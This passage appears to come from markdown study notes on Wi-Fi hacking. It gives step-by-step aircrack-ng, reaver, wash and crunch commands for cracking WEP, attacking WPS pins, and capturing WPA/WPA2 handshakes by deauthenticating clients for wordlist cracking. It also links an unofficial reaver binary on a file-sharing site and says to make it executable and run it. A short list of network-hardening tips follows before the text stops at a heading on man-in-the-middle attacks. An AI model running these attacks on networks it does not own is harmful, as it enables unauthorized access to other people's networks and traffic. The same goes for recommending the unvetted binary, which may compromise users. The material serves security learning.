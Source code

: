 1. run `airodump-ng --bssid [MAC] --channel [network_channel] --write [file_name] [wireless card]`
2. run `aireplay-ng --fakeauth [number of times (0 for 1 time)] -D -a [TargetMAC] -h [YOUR_WirelessAdapter_MAC] [WirelessAdapter (wlan0) ]`
    - (Note in monitor mode MAC is the first 12 digits after unspec + replace [-] with [:] )
3. make sure your associated with the network (step 2) and run `aireplay-ng --arpreplay -b [TargetMAC] -h [YOUR_WirelessAdapter_MAC] [WirelessAdapter (wlan0) ]`
4. then run the crack `aircrack-ng [filename.cap]`

> may want to leave all 3 running at once

### Cracking WPA/WPA2

For cracking WPA or WPA2, look out for WPS, this will enable the hack to much simpler as WPS is an 8 digit pin. Otherwise same attack as [WEP](#cracking-wep), but will take longer as WPA/WPA2 were designed to solve WEP's problems, thus more secure.

> WPS is only available if the router supports WPS (and not PBS(push button authentication))

#### With WPS

1. to find all networks with WPS enabled use `wash --interface [WirelessAdapter]`
2. to attack a network with WPS:
    1. run fake auth on the router `aireplay-ng --fakeauth [number of times (0 for 1 time)] -D -a [TargetMAC] -h [YOUR_WirelessAdapter_MAC] [WirelessAdapter (wlan0) ]` + leave airodump-ng in background (see WEP step 1)
    2. use reaver `reaver --bssid [targetMAC] --channel [channel] --interface [WirelessAdapter] -vvv --no-associate`
        > if reaver doesn't work use this version of reaver <https://ufile.io/lro4nkdv> make sure you run `chmod +x reaver` then `./reaver [your command here]`

#### Without WPS

1. monitor and write to a file
2. deauthenticate a client to capture handshake
3. create a word list:
    1. Download a word list off the internet or:
        - Crunch can be used to create a word list using `crunch [min] [max] [characters] -t [pattern] -o [filename]`
    2. Need handshake + word list to crack WPA
    3. to begin cracking the password use `aircrack-ng [.cap file] -w [wordlist]`
        - methods to speedup
            1. use online services with handshake & word list
            2. use GPU for cracking
            3. use rainbow tables
            4. pipe word list as it is being created

### Securing your Network

- Ensure WPA2 is used with a long, complex password with letters, special characters and numbers
- Change the password to the router login (typically admin, admin)
- Disable WPS
- Specify exact MAC addresses to connect (visitors won't like this)

### Post Connection Attacks (MITM Attacks)
